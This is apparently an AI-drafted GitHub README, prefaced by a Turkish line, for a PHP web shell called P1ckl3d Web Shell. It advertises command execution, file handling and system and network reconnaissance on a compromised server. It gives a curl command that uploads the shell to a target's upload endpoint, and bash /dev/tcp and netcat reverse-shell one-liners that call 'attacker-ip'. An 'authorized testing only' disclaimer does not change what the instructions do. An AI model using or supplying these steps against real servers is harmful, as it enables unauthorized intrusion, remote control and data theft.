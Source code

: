 GitHub README.md formatında düzenlenmiş versiyonu hazırlıyorum. Markdown formatında ve görsellerle zenginleştirilmiş şekilde:

# P1ckl3d Web Shell: Advanced Security Testing Tool 🛡️

![Security Banner](https://raw.githubusercontent.com/your-repo/assets/security-banner.png)

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)
[![GitHub stars](https://img.shields.io/github/stars/0xP1ckl3d/p1ckled_web_shell)](https://github.com/0xP1ckl3d/p1ckled_web_shell/stargazers)
[![GitHub issues](https://img.shields.io/github/issues/0xP1ckl3d/p1ckled_web_shell)](https://github.com/0xP1ckl3d/p1ckled_web_shell/issues)

> ⚠️ **IMPORTANT**: This tool is strictly for authorized security testing only. Unauthorized use is prohibited.

## 📚 Table of Contents

- [Features](#features)
- [Installation](#installation)
- [Usage Guide](#usage-guide)
- [Advanced Features](#advanced-features)
- [Security Considerations](#security-considerations)
- [Troubleshooting](#troubleshooting)
- [Contributing](#contributing)
- [License](#license)

## 🚀 Features

### Core Capabilities

```mermaid
graph TD
    A[P1ckl3d Web Shell] --> B[Command Execution]
    A --> C[File Management]
    A --> D[Reconnaissance]
    A --> E[Reverse Shell]
    B --> B1[Real-time Output]
    B --> B2[Command History]
    C --> C1[Upload/Download]
    C --> C2[Directory Navigation]
    D --> D1[System Info]
    D --> D2[Network Analysis]
    E --> E1[Bash Shell]
    E --> E2[Netcat Shell]

Key Features Breakdown
🔧 Command Execution
Real-time shell command execution
Command history logging
No page reload required
📁 File Management
File upload/download capabilities
Directory navigation
Hidden file access
🔍 Reconnaissance Features
System Information
OS Details
Kernel Version
PHP Configuration
Network Analysis
Open Ports
Active Connections
Firewall Status
Security Information
User Accounts
Permissions
Security Configs
💿 Installation
Clone the repository:
git clone https://github.com/0xP1ckl3d/p1ckled_web_shell.git

Upload the webshell:
# Example using curl (if applicable)
curl -F "file=@webshell.php" http://target-server/upload.php

📖 Usage Guide
Basic Commands
# List directory contents
command> ls -la

# Change directory
command> cd /var/www

# View file contents
command> cat config.php

File Management Interface

Reconnaissance Tool
# Run full system reconnaissance
command> run discovery

# Check specific system information
command> sysinfo

🔧 Advanced Features
System Information Gathering
# Example output structure
{
    "os_info": {
        "name": "Ubuntu 20.04.3 LTS",
        "kernel": "5.4.0-42-generic"
    },
    "network": {
        "interfaces": ["eth0", "lo"],
        "open_ports": [80, 443, 22]
    }
}

Reverse Shell Capabilities
# Bash reverse shell
bash -i >& /dev/tcp/attacker-ip/4444 0>&1

# Netcat reverse shell
nc -e /bin/sh attacker-ip 4444

🛡️ Security Considerations

⚠️ Critical Security Notes

Only use on authorized systems
Maintain detailed activity logs
Remove after testing
Follow security guidelines
Monitor all activities
🔧 Troubleshooting

Common issues and solutions:

Issue	Solution
Permission Denied	Check file permissions and user context
Upload Failed	Verify file size limits and server configs
Connection Issues	Check network connectivity and firewalls
🤝 Contributing
Fork the repository
Create your feature branch
Commit changes
Push to branch
Create Pull Request
📄 License

This project is licensed under the MIT License - see the LICENSE file for details.

📊 Project Stats

🌟 Star History
